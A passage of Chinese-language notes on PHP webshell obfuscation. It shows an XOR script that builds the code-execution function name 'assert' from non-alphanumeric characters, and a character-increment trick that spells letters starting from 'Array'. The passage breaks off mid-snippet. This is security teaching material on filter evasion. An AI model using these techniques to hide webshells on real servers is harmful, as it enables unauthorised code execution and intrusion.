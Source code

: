 异或脚本（php版本）

```
<?php
$shell = "assert";
$result1 = "";
$result2 = "";
for($num=0;$num<=strlen($shell);$num++)
{
    for($x=33;$x<=126;$x++)
    {
        if(judge(chr($x)))
        {
            for($y=33;$y<=126;$y++)
            {
                if(judge(chr($y)))
                {
                    $f = chr($x)^chr($y);
                    if($f == $shell[$num])
                    {
                        $result1 .= chr($x);
                        $result2 .= chr($y);
                        break 2;
                    }
                }
            }
        }
    }
}
echo $result1;
echo "<br>";
echo $result2;

function judge($c)
{
    if(!preg_match('/[a-z0-9]/is',$c))
    {
        return true;
    }
    return false;
}
```

核心：**将非字母、数字的字符经过各种变换，最后能构造出a-z中任意一个字**

自增运算

```
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
```